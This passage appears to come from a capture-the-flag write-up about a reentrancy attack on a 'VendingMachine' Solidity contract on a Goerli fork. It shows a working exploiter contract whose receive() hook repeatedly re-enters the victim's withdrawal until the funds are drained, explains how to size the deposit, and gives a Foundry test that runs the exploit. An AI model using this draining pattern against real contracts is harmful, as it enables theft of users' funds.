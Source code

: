 ```solidity
        (bool sent, ) = owner.call{value: address(this).balance}("");
        require(sent, "Failed to send ether");
    }

    receive() external payable {
        // The receive function will be called by the `VendingMachine.withdrawal` function
        // And we use it to re-enter into it until we have drained all the funds
        if (address(victim).balance != 0) {
            victim.withdrawal();
        }
    }
}
```

Before moving on, I would like to explain something. It's important to understand that you **must** deposit a **specific amount** to make it work correctly.

The `withdrawal` function will always withdraw the whole balance you have deposited via the `deposit` function.

This mean that if the balance of the `VendingMachine` contract **before** your deposit is `X Ether` you must deposit `X Ether` or an amount that is divisible by that `X`.

Let's make an example. Inside the `VendingMachine` there is `10 ether`

- if you deposit `10 ether` you will need to call `withdrawal` two times. One to withdraw your deposit, one to withdraw the `VendingMachine` balance
- if you deposit `1 ether` you will have to call `withdrawl` eleven times. One to withdraw your deposit and then `10 more times` to withdraw the rest of the balance
- if you deposit `11 ether` the contract will withdraw your `11 ether` but it will also try to re-enter and withdraw the same amount. The transaction will fail because the contract only have `10 ether` in its balance right now

So, the solution is to

- If you have enough funds, deposit the same amount of `ether` to match the contract balance. It will cost less gas because you will only call the `withdrawal` two times
- otherwise deposit an amount that still allows you to complete the challenge but prevent you to not revert because of the `Out of Gas` exception

## Solution code

Now what we have to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork to execute the test

Here's the code that I used for the test:

```solidity
function testDrainVendingMachine() public {
    address player = users[0];
    vm.startPrank(player);

    uint256 initialPlayerBalance = player.balance;
    uint256 initialVendingMachineBalance = address(vendingMachine).balance;

    // deploy the VendingMachineExploiter contract
    VendingMachineExploiter exploiter = new VendingMachineExploiter{value: 0.1 ether}(vendingMachine);
    vm.label(address(exploiter), "VendingMachineExploiter");

    // start the exploit process
    exploiter.exploit();

```